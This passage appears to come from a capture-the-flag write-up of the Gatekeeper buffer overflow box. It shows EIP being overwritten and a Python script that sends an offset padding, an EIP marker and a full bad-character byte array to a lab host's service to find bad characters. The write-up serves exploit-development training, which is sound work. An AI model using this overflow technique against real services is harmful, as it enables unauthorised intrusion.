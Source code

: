 ![0xskar](/assets/gatekeeper05.png)

- we control the EIP since we have overwritten with our B's 42424242

- now we need to find the badchars
- generate bytearray in immunity ``!mona bytearray -b "\x00"``
- update our code with the badchard variable from [Cytopia](https://github.com/cytopia/badchars)

```python
import socket
import sys

offset = 146
payload = b"A" * offset + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',31337))
      s.send(payload + badchars + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

